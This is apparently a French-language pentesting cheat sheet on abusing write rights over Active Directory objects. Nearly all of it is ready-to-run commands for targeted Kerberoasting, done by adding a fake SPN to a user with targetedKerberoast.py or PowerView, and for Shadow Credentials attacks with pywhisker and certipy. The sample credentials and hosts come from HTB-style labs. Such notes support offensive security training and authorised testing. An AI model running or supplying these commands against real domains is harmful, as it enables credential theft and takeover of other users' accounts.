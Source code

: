 
> [!TIP]
> Permet d'écrire n'importe quel attribut sur l'objet

Exploitations possibles:

Users :
- Targeted Kerberoasting
- Shadow Credentials

Groups:
- AddMember


# 1. Targeted Kerberoasting

> [!TIP]
> Ajouter un SPN au user afin de le kerberoast

## LINUX

### TargetedKerberoast

```
python3 targetedKerberoast.py -v -d "$DOMAIN_NAME" -u "$USER" -p "$PASSWORD" --dc-ip $DCIP --request-user $TARGETUSER
```

auth kerberos

```
python3 targetedKerberoast.py -v -d "$DOMAIN_NAME" -u "$USER" -p "$PASSWORD" -k --dc-host $DCHOSTNAME --request-user $TARGETUSER
```




## WINDOWS

### PowerView

1. S'authentifier avec le compte ayant les droits

```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

2. Importer PowerView

```powershell
Import-Module .\PowerView.ps1
```

3. vérifier que la target n'a pas de SPN

```powershell
Get-DomainUser 'adunn' | Select serviceprincipalname
```

4. Ajouter le SPN au user

```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

5. Kerberoasting -> [[POWERVIEW#1. KERBEROASTING]] 

6. Supprimer le SPN

```powershell-session
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```


# 2. Shadow Credentials

## PyWhisker


```bash
python3 pywhisker.py -d "domain.local" -u "controlledAccount" -p "somepassword" --target "targetAccount" --action "add"
```


## Certipy-AD #ShadowCredentials+ #UnPACTheHash 

```bash
sudo certipy-ad shadow auto -username 'd.anderson@infiltrator.htb' -p 'WAT?watismypass!' -k -account e.rodriguez -dc-ip 10.10.11.31 -target dc01.infiltrator.htb
```
